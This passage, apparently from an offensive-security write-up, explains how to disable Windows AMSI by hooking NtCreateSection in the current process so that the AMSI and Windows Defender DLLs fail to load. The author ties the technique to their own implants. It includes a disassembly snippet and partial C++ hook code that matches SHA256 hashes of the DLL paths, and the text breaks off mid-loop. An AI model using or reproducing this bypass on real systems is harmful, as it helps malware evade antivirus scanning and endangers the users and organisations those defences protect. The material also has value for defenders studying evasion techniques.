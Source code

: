 ```c
mov     esi, eax
mov     eax, [ebp+var_8]
mov     [eax+14h], ecx
cmp     ebx, 20000000h
jz      loc_6A2AA836
```

ZwMapViewOfSection will map the AMSI DLL in the process.

If we could anyway break any of those functions when AMSI DLL is going to be loaded, then the DLL would not be loaded, and our process would live AMSI free.

## Offensive Hooking

The hooking technique comes fast to our mind, normally this technique is used by security products to monitor what a userland process is calling (NTDLL syscall hooking), but nothing prevents us from hooking our process (or others if you can get a PROCESS_VM_WRITE handle).

Via hooking we could intercept calls to NtOpenFile / NtCreateSection / NtMapViewOfSection (any of them) and when we see the AMSI dll is going to be loaded return an invalid handle, so the loader will not be able to load it.

In this case we choosed NtCreateSection, not because a special reason, but because we already have implemented it for other implants, and we can reutilize the code (be lazy) ;-).

The hooked function would look like this.

```c

std::string data_hash2[] =
{
	"fbd13447dcd3ab91bb0d2324e11eca986967c99dcd324b00f9577010c6080413", //SHA256 of the UNC Path of the AMSI dll and other Windows Defender injected DLLs
	"856efe1b2c5b5716b4d373bb7205e742da90d51256371c582ce82b353d900186",
	"d8d52609d0c81d70bf44cb3cd5732a1c232cc20c25342d0a118192e652a12d98",
	"a75589e0d1b5b8f0ad28f508ed28df1b4406374ac489121c895170475fe3ef74"

	
}; //array with the file hashes



NTSTATUS ntCreateMySection(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL) /*Bypass AMSI*/
{
	int isFinal = 0;
	char lpFilename[256];
	if (FileHandle != NULL)
	{

		DWORD res = GetFinalPathNameByHandleA(FileHandle, lpFilename, 256, FILE_NAME_OPENED | VOLUME_NAME_DOS); //Get the file path of the file handle
		if (res == 0)
			printf("GetFinalPathNameByHandleA error: %d\n", GetLastError());

		else
		{
			std::string hash = sha256(std::string(lpFilename)); //Compute the SHA256 hash of the file path (only the hash of the name, not the file)
			unsigned int arrSize = sizeof(data_hash2) / sizeof(data_hash[0]); //Get the size of the array
			for (int counter = 0; counter < arrSize; counter++) //Loop each position of the array
			{
				if (hash.compare(data_hash2[counter]) == 0) //If hash of the DLL to load is equal to any of the array hashes return 0
```